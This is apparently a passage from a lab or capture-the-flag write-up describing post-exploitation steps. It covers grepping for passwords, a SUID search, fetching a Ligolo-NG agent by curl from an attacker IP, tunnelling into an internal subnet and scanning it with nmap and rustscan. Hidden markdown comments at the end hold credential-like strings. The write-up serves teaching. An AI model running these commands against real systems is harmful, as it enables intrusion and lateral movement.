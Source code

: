 
### Trying Privilege escaltion
At this point I performed some basic controls to try to escalate my privileges. I searched for files containing juicy information:

    grep -Ril "password" /var/www  2> /dev/null
    ...
    grep -Ril "password" /home 2> /dev/null
    ...

Nothing really interesting emerged. 
I searched for SUID file, but again, with no luck:

    find / -perm -u=s -type f 2>/dev/null
    ...
Performing other activities to find a way to escalate my privilege, but I didn't find anything.

### Pivoting
At this point I decided to move forward and perform an hosts scan on the subnet  192.168.100.0/24 using the compromised machine as pivot host. As usual to perform this task I use Ligolo-NG. I downloaded the agent from attacker machine, since wget it's not installed I used curl:

    cd /tmp && curl -O http://10.50.74.35:8000/agent
    chmod u+x agent

Then on my attacker machine configure the proxy (execute the command as root).

    ip tuntap add user root mode tun ligolo && ip link set ligolo up
Add route to the victim subnet

    ip route add 192.168.100.0/24   dev ligolo
Start the server on the attacker:

    ./ligolo_proxy -selfcert

Coming back to the victim, start the agent:

    ./agent -connect 10.50.74.35:11601 -ignore-cert

On the attacker ligolo console start the session:

    [Agent : www-data@266b41428577] » tunnel_start 
    [Agent : www-data@266b41428577] » INFO[0481] Starting tunnel to www-data@266b41428577    

Now from our machine we can perform a host discovery scan:

    nmap -sn 192.168.100.0/24
    ...
    Nmap scan report for 192.168.100.1
    Host is up (0.17s latency).
    Nmap scan report for 192.168.100.100
    Host is up (0.13s latency).

Apart the victim, we found another active host in the network, that actualy is the default GW for the subnet (route -n on the victim). Now performing a ports scanner:

    rustscan -b 900 -a 192.168.100.1
    ...
    PORT      STATE SERVICE    REASON
    22/tcp    open  ssh        syn-ack
    80/tcp    open  http       syn-ack
    3306/tcp  open  mysql      syn-ack
    8080/tcp  open  http-proxy syn-ack
    33060/tcp open  mysqlx     syn-ack


[//]: # (admin:DBManagerLogin!)
[//]: # (Nothingtoworry!)